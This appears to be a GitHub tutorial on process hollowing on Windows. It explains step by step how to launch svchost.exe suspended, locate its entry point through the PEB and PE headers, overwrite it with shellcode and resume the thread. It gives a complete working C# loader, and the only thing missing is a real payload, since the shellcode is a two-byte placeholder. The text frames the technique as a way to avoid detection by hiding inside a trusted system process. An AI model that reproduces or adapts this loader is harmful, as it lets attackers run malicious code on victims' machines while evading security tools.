



All `svchost.exe` processes run by default at `SYSTEM integrity level`, meaning we cannot inject into them from a lower integrity level. Additionally, if we were to launch `svchost.exe` (instead of Notepad) and attempt to inject into it, the process would immediately terminate.

Since `svchost.exe` makes network activity, could be useful to minimize our chances of being detected.

The idea is to launch `svchost.exe` and modify it before it starts executing.

The flag `CREATE_SUSPENDED` allows us to create a new suspended or halted process.

When `CreateProcess` API is called the OS performs the following three actions.

1. Creates the virtual memory space for the new process.
2. Allocates the stack along with the `Thread Environment Block (TEB)` and the `Process Environment Block (PEB)`.
3. Loads the required dlls and exe into memory.

Once finished these tasks, the OS will create a thread to execute the code, which will start at the EntryPoint of the executable. If we use the flag `CREATE_SUSPENDED`, the execution of the thread is halted just before it runs the EXE's first instruction.

We will locate the EntryPoint of the executable and overwrite its in-memory content with our staged shellcode.

Locating the EntryPoint is not easy due to the ASLR, but once the new suspended process is created, we can use `ZwQueryInformationProcess` to obtain the PEB. From the PEB we can obtain the PE base address, which we can use to parse the PE headers and locate the EntryPoint.

As we can see in the image the `ImageBaseAddress` in `x64` is with an offset of `0x10` from PEB base address.



```
*ImageBase = PEB + 0x10
```

Once readed the `ImageBase` from process memory we need to parse the `IMAGE_DOS_HEADER` to obtain the `e_lfanew` field, which is located at offset `0x3c`.

```
*e_lfanew = &ImageBase + 0x3c
```

`e_lfanew` contains the offset from the beginning of the PE (image base) to the PE Header.

pe_headers = ImageBase + &e_lfanew

At this moment we found the `IMAGE_NT_HEADERS` we just need to read the RVA which is located at offset `0x28` from the PE headers.

```
*AddressOfEntryPoint = pe_headers + 0x28
```



RVA stands for EntryPoint Relative Virtual Address, so that means that means that to find the EntryPoint we need to sum the image base plus the RVA.

```
EntryPointVA = ImageBase + &AddressOfEntryPoint
```

Once we have the `addressOfEntryPoint` we can write our shellcode and resume the thread.

> **Note**: The process created has no parent process!



Full code:


```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Security.Permissions;
using System.Text;
using System.Threading.Tasks;

namespace process_hollowing
{
    class Program
    {

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }


        [Flags]
        public enum PROCESS_CREATION_FLAGS : uint
        {
            CREATE_SUSPENDED = 0x00000004,
        }
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public uint dwProcessId;
            public uint dwThreadId;
        }
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }


        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);
        static void Main(string[] args)
        {
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, (uint)PROCESS_CREATION_FLAGS.CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi);

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);

            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            IntPtr peBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, peBase, data, data.Length, out nRead);

            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3c);
            uint opthdr = e_lfanew_offset + 0x28;

            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)peBase);

            byte[] buf = new byte[2] { 0xfc, 0x48 };
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

            ResumeThread(pi.hThread);
        }
    }
}
```